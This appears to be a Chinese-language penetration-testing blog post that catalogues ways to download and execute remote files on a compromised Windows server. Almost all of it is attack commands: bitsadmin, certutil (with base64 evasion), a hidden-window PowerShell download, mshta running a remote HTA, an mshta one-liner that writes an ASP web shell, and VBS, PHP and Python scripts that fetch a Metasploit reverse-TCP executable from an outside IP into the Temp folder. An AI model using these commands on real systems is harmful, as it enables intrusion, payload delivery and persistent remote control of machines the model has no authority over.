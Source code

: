```yaml
---
title: Windows 终端下载文件和执行远程文件
description: 在 windows 的终端下下载文件，在 windows 的终端下执行远程文件
categories:
  - Pentest
tags:
  - intranet
date: 2018-02-06 15:12:32
draft: false
---
```


环境：Windows Server 2008 R2 Enterprise

### 0x00 bitsadmin下载文件
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload http://114.115.123.123/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
```

### 0x01 certutil下载文件
保存在当前目录
```bash
certutil -urlcache -split -f http://114.115.123.123/a.exe a.exe
```

有时会下载二进制文件的base64编码后的字符串，然后再解码
```
本地：certutil -encode cc.exe base64.txt
目标：certutil -urlcache -split -f http://114.115.123.123/base64.txt
目标：certutil -decode base64.txt cc.exe
```

文件会以二进制形式缓存到目录：C:\Users\Administrator\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
```bash
certutil -urlcache -f http://114.115.123.123/a.exe
```

### 0x02 powershell下载文件
有的时候PowerShell的执行权限会被关闭，需要使用如下的语句打开。

C:\>powershell set-executionpolicy unrestricted

```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")
```

### 0x03 mshta下载文件与执行远程文件
使用mshta命令的文件都会被缓存到：C:\Users\Administrator\AppData\Local\Microsoft\Windows\Temporary Internet Files

* 执行远程hta文件

```bash
mshta http://114.115.123.123/payload.hta
mshta http://114.115.123.123/a.exe
#payload.hta和a.exe都会被缓存在IE的缓存目录
```
payload.hta
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

* 写文件的方法

```
mshta vbscript:createobject("scripting.filesystemobject").createtextfile("a.asp",2,ture).writeline("<%execute(request('l'))%>")(window.close)
```

### 0x04 Visual Basic
```
Set args = Wscript.Arguments
Url = "http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe"
dim xHttp: Set xHttp = createobject("Msxml2.ServerXMLHTTP.3.0")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile "C:\Windows\Temp\aa.exe", 2 '
end with
```
C:\Users\Administrator\Desktop> cscript test.vbs

### 0x05 利用脚本语言
* PHP

```
#!/usr/bin/php
<?php
    $data = file_get_contents("http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe");
    file_put_contents('C:\\Windows\\Temp\\aa.exe',$data);
?>
```
C:\Users\Administrator\Desktop> php aa.php

* Python

```
import urllib2;u = urllib2.urlopen('http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe');f = open('C:\\Windows\\Temp\\aa.exe', 'w');f.write(u.read());f.close();
```
C:\Users\Administrator\Desktop> python aa.py

### 0x06 FTP
远程连接自己的ftp服务器，然后下载文件

<br />
#### Reference(侵删)：
* [https://xianzhi.aliyun.com/forum/topic/1654](https://xianzhi.aliyun.com/forum/topic/1654?_blank)
* [https://evi1cg.me/archives/Tricks.html](https://evi1cg.me/archives/Tricks.html?_blank)
* [https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/](https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/?_blank)
* [http://www.secange.com/2017/08/收集整理的16种文件下载的方式/](http://www.secange.com/2017/08/收集整理的16种文件下载的方式/?_blank)
